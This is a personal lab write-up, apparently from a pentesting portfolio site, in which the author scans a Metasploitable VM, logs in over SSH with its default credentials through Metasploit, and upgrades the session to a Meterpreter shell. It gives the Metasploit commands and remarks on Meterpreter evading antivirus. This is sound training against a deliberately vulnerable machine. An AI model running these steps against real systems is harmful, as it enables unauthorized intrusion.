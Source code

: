 ```yaml
---
title: Upgrading to Meterpreter Shell Using Metasploit
permalink: /metasploit1
parent: Pentesting
---
```

# Upgrading to Meterpreter Shell Using Metasploit
{: .no_toc }

{: .note }
Pentesting, Ethical Hacking, Kali Linux, Metasploit, Metasploitable, Virtual Machines, Networking
{: .fs-3 }

#### Contents
{: .no_toc }
- TOC
{:toc}

## Scenario
In this lab, I will establish a remote connection to a vulnerable machine using Metasploit. After gaining access to the machine, I will upgrade the limited shell to a meterpreter shell. Meterpreter operates entirely in memory, making it more stealthy and less likely to be detected by antivirus software.  It also provides a rich command set that allows for advanced post-exploitation activities. This includes commands for interacting with the file system, networking, system, and more.

## Goals & Objectives
1. Use VMWare Workstation Player to run separate instances of Kali Linux and Metasploitable, an intentionally vulnerable virtual machine.
2. Perform an nmap scan on the target machine, detecting open ports and a list of services and their versions.
3. Log in to the target machine using SSH.
4. Upgrade the limited shell to a meterpreter shell.

## Results
### 📄 Task 1: Run Kali Linux and Metasploitable

I download pre-built images for Kali Linux and Metasploitable and run them in VMWare Workstation Player.

![](/assets/images/101_71_metasploit1/step1.png)

<br>
<br>
### 📄 Task 2: Run Metasploit in Kali Linux

![](/assets/images/101_71_metasploit1/step2.png)

<br>
<br>
### 📄 Task 3: Find the IP address of the target machine 

I use ```ifconfig``` to find the IP address of the target machine: 192.168.28.128

![](/assets/images/101_71_metasploit1/step3.png)

<br>
<br>
### 📄 Task 4: Scan the target machine using db_nmap

In Metasploit, I scan the target machine using ```db_nmap -sV 192.168.28.128```. This command stores the results of an nmap scan in Metasploit’s database. This database allows me to keep track of and manage the scan results.

![](/assets/images/101_71_metasploit1/step4.png)

I notice that SSH (secure shell) is running on port 22. SSH is an encrypted network protocol used to remotely interact with an Operating System.

<br>
<br>
### 📄 Task 5: Log in to the target machine using SSH

To log in to the target machine using SSH, I run the following the commands:

```bash
use auxiliary/scanner/ssh/ssh_login
set rhosts 192.168.28.128
set rport 22
set username msfadmin
set password msfadmin
run
```

Note: msfadmin is the default username and password of the Metasploitable VM.

```use auxiliary/scanner/ssh/ssh_login``` allows me to use the ssh_login module to remotely login to the target machine  
```set rhosts``` sets the IP address of the target machine  
```set rport``` specifies the port number  
```set username``` and ```set password``` specifies the login credentials to access the target machine

![](/assets/images/101_71_metasploit1/step5.png)

The ```sessions``` command shows active SSH sessions. Currently, the active session is a limited shell.

<br>
<br>
### 📄 Task 6: Upgrade the limited shell to a meterpreter shell

To upgrade the limited shell to a meterpreter shell, I run the following commands:

```bash
use post/multi/manage/shell_to_meterpreter 
set session 1 
run
```

```use post/multi/manage/shell_to_meterpreter``` allows me to upgrade a shell session to meterpreter shell  
```set session 1``` upgrades the SSH sessions to a meterpreter shell

![](/assets/images/101_71_metasploit1/step6.png)

Running the ```sessions``` command reveals a second session, which is the meterpreter shell.

<br>
<br>
### 📄 Task 7: Switch to the meterpreter shell

To switch to the meterpreter shell, I use the following command: ```session -i 2```.

![](/assets/images/101_71_metasploit1/step7.png)

---

<a href="#top" id="back-to-top">Back to top</a>